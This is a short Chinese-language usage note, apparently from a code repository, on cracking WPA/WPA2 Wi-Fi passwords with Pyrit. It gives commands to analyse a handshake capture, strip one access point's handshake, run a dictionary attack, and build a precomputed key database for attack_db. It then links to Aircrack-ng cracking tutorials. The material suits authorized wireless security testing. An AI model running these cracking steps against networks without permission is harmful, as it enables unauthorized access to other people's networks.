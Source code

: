 ```
pyrit -r pcap/WPAcrack_sll-01.cap analyze
```

- 将某个ap的握手数据分离出来：

```
pyrit -r pcap/WPAcrack_sll-01.cap  -b d8:1*:0*:1*:5*:d* -o test.cap strip
```

- 直接通过字典文件进行解密,如果中断则会重新来过。。。

```
pyrit -r test.cap  -i passwd.tar attack_passthrough
```

- 利用attack_db 机制来进行解密尝试

1. 将密码字典导入到本地目录中,可以通过配置 ~/.pyrit/config 中的file选项来配置存放目录：

```
pyrit -i passwd.tar import_passwords
pyrit eval  # 查看结果
```
2. 和SSID配合，生成对应的密钥对, 注意这一步运算量非常的大，可以中断，不会重新来过。

```
pyrit -e hello——ssid create_essid

pyrit eval  # 查看结果
```

3. 利用生成的字典库，进行匹配

```
pyrit -r test.cap --all-handshakes attack_db
```

[无线破解Aircrack-ng套件详解－－airmon-ng与airodump-ng](https://blog.csdn.net/QS_0928/article/details/77387335)

[Cracking WPA2-PSK Passwords Using Aircrack-Ng](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)

[Pyrit 项目主页](https://github.com/JPaulMora/Pyrit/wiki）
